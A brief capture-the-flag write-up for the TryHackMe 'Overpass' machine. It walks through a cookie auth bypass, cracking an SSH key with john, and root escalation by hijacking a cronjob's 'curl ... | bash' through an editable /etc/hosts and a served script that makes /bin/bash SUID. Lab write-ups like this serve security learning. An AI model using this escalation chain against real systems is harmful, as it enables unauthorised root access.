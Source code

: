 # Overpass

* Nikto finds a /admin page with a login
* The JS tells us that we are allowed in if we have a "StatusToken" cookie other than, 'Incorrect credentials'
* We get an encrypted RSA private key for james
```bash
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Overpass_IN_PROGRESS$ /usr/share/john/ssh2john.py rsa_private > rsa4john
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Overpass_IN_PROGRESS$ john rsa4john

# found password james13

kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Overpass_IN_PROGRESS$ ssh -i rsa_private james@10.10.112.108

```

* Running linpeas.sh shows us this cronjob that is run as root.
```
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
* Also we have an editable /etc/hosts file, meaning we could change overpass.thm to point to our ip
* Run a python server and simulate that directory structure
* Finally, create a buildscript.sh that makes /bin/bash suid or anything else really
```bash
$ sudo python -m SimpleHTTPServer 80

#####
james@overpass-prod:~$ /bin/bash -p

```

